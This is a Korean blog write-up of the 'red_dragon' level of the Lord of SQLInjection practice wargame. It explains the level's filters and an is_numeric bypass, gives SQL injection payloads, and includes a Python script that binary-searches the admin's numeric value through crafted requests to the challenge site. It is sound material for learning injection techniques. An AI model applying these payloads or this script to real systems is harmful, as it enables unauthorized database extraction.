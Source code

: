 ```yaml
---
layout: single
title: "[Lord of SQLInjection] red_dragon write-up"
date: 2025-05-04 17:30 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## Lord of SQLInjection (red_dragon)

### 풀이

id 파라미터가 필터링 되는 문자를 살펴보면, `prob _ .` 를 필터링하고 있고, 또한 7바이트보다 크면 `too long string` 문자열이 출력되면서 필터링된다. 다음 no 파라미터에서는 `is_numeric` 함수를 이용해서 숫자가 맞는지 비교하고 참이면 no 파라미터 값을 그대로 가서 쿼리에 넣고 아니면 1을 넣는다. 쿼리 결과의 id값이 있다면 echo로 출력해주고, admin 계정의 no 값과 파라미터의 no 값이 일치해야 solve가 된다.

![image-20250504173332194](/images/2025-05-04-los-red_dragon/image-20250504173332194.png)

<br>

`' or 1#` 을 id 파라미터에 넣고 요청해보면 result 결과 값이 admin이 나온다. guest 값도 테스트해보면 echo로 출력되지 않는 걸로 봐서 prob_red_dragon 테이블에 admin 데이터밖에 존재하지 않는 것을 알 수 있다.

![image-20250504180700118](/images/2025-05-04-los-red_dragon/image-20250504180700118.png)

![image-20250504180843159](/images/2025-05-04-los-red_dragon/image-20250504180843159.png)

<br>

일단 `is_numeric` 함수의 우회 방법에 대해서 찾아보자. 검색을 해보면 hex값, 소수점, 지수 등을 이용해서 우회가 가능하다고 한다. 근데 이 방법으로 문자열까지 우회할 수는 없기 때문에 id 파라미터 부분에서 아래와 같이 `'||no>#` 을 입력해주면 뒤에 no 파라미터에서 줄바꿈 문자로 주석을 탈출하고 123과 no 값을 비교할 수 있다.

<br>

![image-20250504185109069](/images/2025-05-04-los-red_dragon/image-20250504185109069.png)

<br>

123보다는 크고 엄청 큰 값을 입력해주면 출력되지 hello admin이 출력되지 않는 것을 알 수 있다. 이제 이를 이진 탐색 트리를 이용해서 파이썬 코드를 짜보자.

![image-20250504185309894](/images/2025-05-04-los-red_dragon/image-20250504185309894.png)

<br>

아래처럼 기존 reqeusts로 전송할 때 처럼 코드를 짜면 자동 url 인코딩 돼서 7바이트가 넘어간다. 따라서 아래처럼 url을 수동으로 요청되는 부분을 만들어주고 이진 탐색 트리를 이용해서 짜주면 되겠다.

```python
import requests

url_base = 'https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php'
cookie = {"PHPSESSID": "d5fo2u0cj07ikqrk2qftquavbd"}

start = 500000000
end = 600000000

while start < end:
    mid = (start + end) // 2
    print(f"start: {start}, end: {end}, mid: {mid}")

    crafted_url = f"{url_base}?id='||no>%23&no=%0a{mid}"

    r = requests.get(crafted_url, cookies=cookie)
    #print(crafted_url)
    if "Hello admin" in r.text:
        start = mid + 1
    else:
        end = mid

print(f"[+] admin의 no 값은 {start}")
```

![image-20250504193508845](/images/2025-05-04-los-red_dragon/image-20250504193508845.png)
